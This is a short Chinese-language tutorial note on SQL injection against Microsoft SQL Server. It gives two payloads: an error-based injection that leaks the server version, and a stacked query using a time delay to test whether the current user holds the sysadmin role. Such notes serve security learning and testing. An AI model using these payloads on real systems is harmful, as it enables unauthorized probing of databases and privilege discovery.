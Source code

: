###### 1、报错注入查询数据库版本
```
select session_id,command from sys.dm_exec_requests where session_id=12 or 1=@@VERSION;
```
如下图  
![image](./pic/0.png)

# 1、堆叠查询+时间盲注查询当前用户是否为dba
```
select session_id,command from sys.dm_exec_requests where session_id=12;if(1=(select is_srvrolemember('sysadmin'))) waitfor delay '0:0:5'--
```
如下图  
![image](./pic/1.png)
